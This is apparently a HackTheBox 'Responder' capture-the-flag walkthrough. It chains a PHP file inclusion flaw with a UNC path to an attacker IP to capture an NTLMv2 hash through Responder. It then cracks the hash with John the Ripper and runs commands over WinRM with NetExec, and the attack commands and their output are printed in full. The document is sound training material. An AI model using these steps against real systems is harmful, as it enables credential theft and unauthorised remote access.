

# 🧑‍🚒 Responder
<div class="machine-properties">
  <span class="prop-badge windows">Windows</span> <span class="prop-badge very-easy">Very Easy</span> <span class="prop-badge skills">LFI & RFI</span> <span class="prop-badge skills">NTLM</span> <span class="prop-badge skills">John the Ripper</span> <span class="prop-badge skills">WinRM</span>
</div>


Responder is a **Very Easy** Windows box that demonstrates how a Local/Remote File Inclusion (LFI/RFI) vulnerability on a web application can be chained with Responder to capture NTLMv2 hashes. The hash is then cracked with John the Ripper to obtain admin credentials, and a WinRM shell is obtained via NetExec.

---

## Recon

A full port scan reveals 3 open ports:

```
$ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.129.12.192

PORT     STATE SERVICE   REASON
80/tcp   open  http      syn-ack ttl 127
5985/tcp open  wsman     syn-ack ttl 127
7680/tcp open  pando-pub syn-ack ttl 127
```

A service scan identifies the running services:

```
$ nmap -sCV -p80,5985,7680 10.129.12.192

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
5985/tcp open  http       Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
7680/tcp open  pando-pub?
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

**Key findings:**
- **HTTP (80)** — Apache 2.4.52 with PHP 8.1.1. The page title is missing, suggesting a custom or misconfigured web app. PHP on Windows is a strong indicator of file inclusion vulnerabilities.
- **WinRM (5985)** — Windows Remote Management is exposed. If we can obtain valid credentials, this gives us a PowerShell shell on the box.
- **Port 7680** — Pando pub service (Windows Update delivery optimization). Not exploitable, but confirms a modern Windows build.

---

## Foothold

### Step 1 — Virtual Host Discovery & LFI Identification

Visiting `http://10.129.12.192` returns a default page with no content. The machine name hints at a virtual host — add it to `/etc/hosts`:

```
$ echo "10.129.12.192 unika.htb" | sudo tee -a /etc/hosts
```

Now `http://unika.htb` loads a language-selection page:


The URL reveals a `page` parameter that includes PHP files:

```
http://unika.htb/index.php?page=contact
```

Testing for LFI with a Windows path:

```
http://unika.htb/index.php?page=..\..\..\..\..\..\..\windows\win.ini
```

The page loads without error — LFI confirmed. Since this is a Windows box with PHP, we can leverage **RFI via UNC paths** to trigger NTLM authentication. The parameter accepts file paths and the server is running PHP on Windows, which opens the door to hash capture.



### Step 2 — RFI with Responder NTLM Capture

With LFI confirmed and a Windows PHP server, we can leverage **Remote File Inclusion (RFI)** via UNC paths. When the PHP server tries to include a file from a UNC path like `\\attacker_ip\share\file`, Windows automatically authenticates to the share using NTLM — sending the server's NTLMv2 hash to our Responder listener.

**First, configure and start Responder:**

Download Responder from GitHub and edit `Responder.conf` to ensure SMB is enabled (it's on by default):

```
[Responder Core]

; Servers to start
SMB      = On
HTTP     = On
```

Start Responder on your VPN interface:

```
$ sudo responder -I tun0
                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

[+] Listening for events...
```

**Now trigger the NTLM authentication via RFI:**

Send a request to the `page` parameter using a UNC path pointing to your attacker IP:

```
http://unika.htb/index.php?page=\\10.10.14.128\file
```

The PHP `include()` tries to resolve `\\10.10.14.128\file`, which triggers an SMB connection from the target to your machine. Responder captures the NTLMv2 challenge-response:

```
[SMB] NTLMv2-SSP Client   : 10.129.12.192
[SMB] NTLMv2-SSP Username : RESPONDER\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::RESPONDER:8289f17dc1079a81:243DC665...00000000
```

> 💡 **Why this works:** PHP's `include()` on Windows resolves UNC paths (`\\host\share`) via the SMB protocol. When the server tries to connect to our attacker-controlled UNC path, Windows automatically sends the server process's NTLMv2 hash as part of the authentication handshake. Responder captures this hash, which can be cracked offline to recover the plaintext password.

### Step 3 — Crack NTLMv2 Hash with John the Ripper

Save the captured hash to a file and crack it with John the Ripper:

```
$ john --format=netntlmv2 hash.txt

Proceeding with incremental:ASCII
badminton        (Administrator)
```

The password for the `Administrator` account is **`badminton`**.

### Step 4 — WinRM Shell via NetExec

With valid credentials and WinRM (port 5985) open, use NetExec to authenticate and verify admin access:

```
$ netexec winrm 10.129.12.192 -u Administrator -p 'badminton'

WINRM       10.129.12.192   5985   RESPONDER        [*] Windows 10 / Server 2019 Build 19041 (name:RESPONDER) (domain:Responder)
WINRM       10.129.12.192   5985   RESPONDER        [+] Responder\Administrator:badminton (Pwn3d!)
```

The `(Pwn3d!)` tag confirms we have admin privileges on the box. Now execute commands via the `-x` flag:

```
$ netexec winrm 10.129.12.192 -u Administrator -p 'badminton' -x 'whoami'

WINRM       10.129.12.192   5985   RESPONDER        responder\administrator
```

### Step 5 — Enumerate & Find the Flag

With a shell as Administrator, enumerate the users on the box:

```
$ netexec winrm 10.129.12.192 -u Administrator -p 'badminton' -x 'dir C:\Users'

WINRM       10.129.12.192   5985   RESPONDER        03/09/2022  06:35 PM    <DIR>          Administrator
WINRM       10.129.12.192   5985   RESPONDER        03/09/2022  06:33 PM    <DIR>          mike
```

There's a user called `mike`. Check their desktop for the flag:

```
$ netexec winrm 10.129.12.192 -u Administrator -p 'badminton' -x 'type C:\Users\mike\Desktop\flag.txt'

WINRM       10.129.12.192   5985   RESPONDER        03/10/2022  05:50 AM                32 flag.txt
```

---

## Key Takeaways

- **RFI via UNC paths triggers NTLM authentication** — When a PHP server on Windows tries to include a file from a UNC path (`\\attacker\share`), it automatically authenticates via NTLM. This is a powerful technique to capture server hashes without touching the filesystem.
- **Responder + John the Ripper is a classic combo** — Responder captures the NTLMv2 challenge-response, and John (or Hashcat with `-m 5600`) cracks it offline. Always check if captured hashes are crackable before attempting relay attacks.
- **Virtual host routing matters** — The initial page showed nothing until we added `unika.htb` to `/etc/hosts`. Always test virtual host routing when a web server returns empty or default pages.
- **WinRM is a first-class shell** — When port 5985 is open and you have credentials, NetExec gives you command execution with the `-x` flag and the `(Pwn3d!)` tag confirms admin access instantly. It's often faster and stealthier than RDP or SMB-based shells.
- **LFI on Windows ≠ LFI on Linux** — Windows PHP servers don't have `/etc/passwd`, but UNC path inclusion and log poisoning are equally powerful. Adapt your attack chain to the OS.

## 🔗 Related

- [[💉 LFI & RFI]] — LFI/RFI exploitation & UNC path tricks
- [[🔐 NTLM]] — NTLM hash capture & relay with Responder
- [[🔧 John the Ripper]] — Cracking NTLMv2 hashes
- [[🖥️ WinRM]] — Windows Remote Management shell with NetExec
- [[🩰 Dancing]] — Another Windows box with SMB + WinRM
- [[💥 Explosion]] — Another Windows box exposing WinRM + RDP
